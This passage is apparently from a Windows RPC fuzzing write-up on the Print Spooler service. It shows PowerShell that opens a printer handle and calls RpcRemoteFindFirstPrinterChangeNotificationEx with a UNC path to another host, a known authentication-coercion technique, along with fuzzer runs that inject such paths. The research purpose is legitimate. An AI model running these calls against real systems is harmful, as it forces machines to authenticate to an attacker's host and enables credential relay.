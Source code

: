 ```json
    "MethodDefinition": "Int32 RpcRemoteFindFirstPrinterChangeNotificationEx(NtCoreLib.Ndr.Marshal.NdrContextHandle, Int32, Int32, System.String, Int32, System.Nullable`1[Struct_44])",
    "Service": "Spooler",
    "FuzzInput": "p0=NtCoreLib.Ndr.Marshal.NdrContextHandle (Complex)\r\np1=22\r\np2=38\r\np3=\\incendiumrocks__w+zX],1>&\r\np4=56\r\np5=System.Nullable`1[[Struct_44, a0igur11.out, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null]] (Complex)",
    "Errormessage": "Exception calling Invoke with 2 argument(s): (0x800706F7) - The stub received bad data."
}
```
Why is this? Well if we take a look at the value of the context handle that `RpcOpenPrinter` returned, it is still a `null` context handle. This can be seen if we do the whole attack chain manually.

```powershell
$vulnrpcint = Get-RPCServer -DbgHelpPath "$env:systemdrive\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll" -FullName "$env:systemdrive\Windows\System32\spoolsv.exe" |? {$_.InterfaceId -eq '12345678-1234-abcd-ef00-0123456789ab'}
$client = Get-RPCClient -Server $vulnrpcint
Get-RpcClient: Cannot bind argument to parameter 'Server' because it is null.
$client = Get-RPCClient -Server $vulnrpcint
Connect-RpcClient -Client $client
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'RpcOpenPrinter' }
$p3 = $method.GetParameters()[2]
$complex = [Activator]::CreateInstance($p3.ParameterType)
$retval = $client.RpcOpenPrinter("\\127.0.0.1", '', $complex, 0x00020002)
$retval

p1                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0   1801
```
My best guess was that it cannot connect to the specified printer, since `1801` is being returned, which is the error code for this on Windows. It turns out we must specify the IPv4 of the network interface of the host, not `127.0.0.1`.

```powershell
$retval = $client.RpcOpenPrinter("\\172.26.80.150", '\\172.26.80.150', $complex, 0x00020002)
$retval

p1                                                           retval
--                                                           ------
Handle: bf602292-de1b-41e5-852c-831cc1d0c1d8 - Attributes: 0      0
```

And now we can also invoke the `RpcRemoteFindFirstPrinterChangeNotificationEx` procedure.
```powershell
$client.RpcRemoteFindFirstPrinterChangeNotificationEx($retval.p1, $PRINTER_CHANGE_ADD_JOB, 0, "\\192.168.10.141\x",0, $null);

87
```

This shows that some procedures are very picky before a valid context handle returned. We can also provide our own IP in a UNC path for string input using the fuzzer:
```powershell
'output\rpcServerData.json' | Invoke-RpcFuzzer -OutPath 'output' -FuzzerType sorted -StringInput "\\172.26.80.150" -minIntSize 0 -maxIntSize 1

[+] dbghelp.dll successfully initialized
[+] Starting fuzzer...
[+] Completed fuzzing
[+] To load data into Neo4j use: '.\output\Allowed.json' | Import-DatatoNeo4j -Neo4jHost '127.0.0.1:7474' -Neo4jUsername 'neo4j'
```
